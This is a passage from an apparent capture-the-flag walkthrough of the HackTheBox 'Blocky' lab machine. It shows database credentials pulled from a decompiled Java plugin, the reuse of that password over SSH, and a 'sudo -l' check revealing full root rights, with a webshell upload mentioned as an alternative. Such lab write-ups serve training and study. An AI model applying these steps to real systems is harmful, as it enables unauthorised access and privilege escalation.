 ```console

    public String sqlHost;
    public String sqlUser;
    public String sqlPass;
}
``` 
> *jad* produces a file called **BlockyCore.jad** which I just printed out using *cat*

My assumptions were correct and we succssfuly extracted some database credentials. 
```console
sqlHost = "localhost";
sqlUser = "root";
sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```
There are two main ways one can go from here on - change the wordpress password of **notch** via */phpmyadmin/* and upload a php webshell OR simply use the gained credentials to SSH into the box. To my knowledge only the second options works because php web shell won't allow you to escalate privileges (correct me if I'm wrong though)! 

```console
root@EdgeOfNight:~# ssh notch@10.10.10.37

notch@10.10.10.37's password: 8YsqfCTnvxAUeduzjNSXe22
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Dec  8 10:39:57 2017 from 10.10.14.217
notch@Blocky:~$
```

Now go and get that user flag!

***

# Privilege escalation
Simply do `sudo -l` which reveals that our user can run any command with sudo privileges:
```console
notch@Blocky:~$ sudo -l
[sudo] password for notch: 8YsqfCTnvxAUeduzjNSXe22
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
